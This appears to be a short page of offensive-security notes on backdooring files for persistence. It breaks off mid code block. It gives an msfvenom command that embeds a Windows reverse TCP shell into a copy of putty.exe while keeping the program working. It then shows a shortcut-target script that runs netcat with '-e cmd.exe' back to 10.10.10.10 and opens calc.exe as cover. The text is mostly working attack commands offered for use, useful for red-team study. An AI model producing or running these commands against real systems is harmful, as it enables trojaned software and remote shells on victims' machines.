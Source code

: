 # Backdooring Files
We can tamper with files we know the user interacts with regularly.

## Executable Files
you can plant a payload in any exe file using `msvenom`. This will execute an extra thread in your binary while still retaining all functionality.

```sh
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=10.10.10.10 lport=4444 -b "\x00" -f exe -o puttyX.exe
```

## Shortcut Files
We can point a shortcut to a script we control. Lets create an example script
```sh
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.10.10 4445"
C:\Windows\System32\calc.exe

